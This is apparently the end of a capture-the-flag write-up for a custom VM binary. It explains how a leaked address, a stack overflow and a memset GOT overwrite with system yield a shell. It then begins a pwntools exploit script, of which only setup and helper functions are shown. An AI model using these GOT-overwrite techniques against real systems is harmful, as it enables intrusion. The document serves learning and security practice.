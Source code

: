 2.  **Calculate `system` and Overwrite `memset` GOT:** Once control returns from the leak gadget, the payload uses the value in `r1` to calculate the address of `system`. It then triggers the stack overflow vulnerability one last time to gain an arbitrary write, setting `sp` to point to the `memset` GOT entry and overwriting it with the `system` address.

3.  **Trigger `system("/bin/sh")`:** The final step is to trigger a VM restart. When `main` runs again, its call to `memset` is hijacked. Instead, `system` is executed, with the first argument pointing to the start of the `vm` struct, which now contains `/bin/sh`. This gives us a shell.

This successfully exploits the vulnerability to achieve remote code execution.

## 3\. Full Exploit Script
```py
from pwn import *

con = "127.0.0.1 2727"

host, port = con.replace(" ", ":").split(":")

ssl = False

binary = './vm'

gdbscript = '''
set follow-fork-mode parent

    b *0x401a8f
    b *0x401932 
    c
'''

elf  = context.binary = ELF(binary)
libc = context.binary.libc
context.terminal = ['tmux', 'splitw', '-h']



# utils
u64 = lambda d: struct.unpack("<Q", d.ljust(8, b"\0"))[0]
u32 = lambda d: struct.unpack("<I", d.ljust(4, b"\0"))[0]
u16 = lambda d: struct.unpack("<H", d.ljust(2, b"\0"))[0]

p64 = lambda d: struct.pack("<Q", d % 2**64)
p32 = lambda d: struct.pack("<I", d % 2**32)
p16 = lambda d: struct.pack("<H", d % 2**16)

# credits to spwn by @chino
ru         = lambda *x, **y: p.recvuntil(*x, **y, drop=True)
rl         = lambda *x, **y: p.recvline(*x, **y, keepends=False)
rc         = lambda *x, **y: p.recv(*x, **y)
sla        = lambda *x, **y: p.sendlineafter(*x, **y)
sa         = lambda *x, **y: p.sendafter(*x, **y)
sl         = lambda *x, **y: p.sendline(*x, **y)
sn         = lambda *x, **y: p.send(*x, **y)
logbase    = lambda: log.info("libc base = %#x" % libc.address)
logleak    = lambda name, val: log.info(name+" = %#x" % val)
ls         = lambda x: log.success(x)
lss        = lambda x: ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))
one_gadget = lambda: [int(i) + libc.address for i in subprocess.check_output(['one_gadget', '--raw', '-l1', libc.path]).decode().split(' ')]

# exit_handler stuff
fs_decrypt = lambda addr, key: ror(addr, 0x11) ^ key
fs_encrypt = lambda addr, key: rol(addr ^ key, 0x11)
```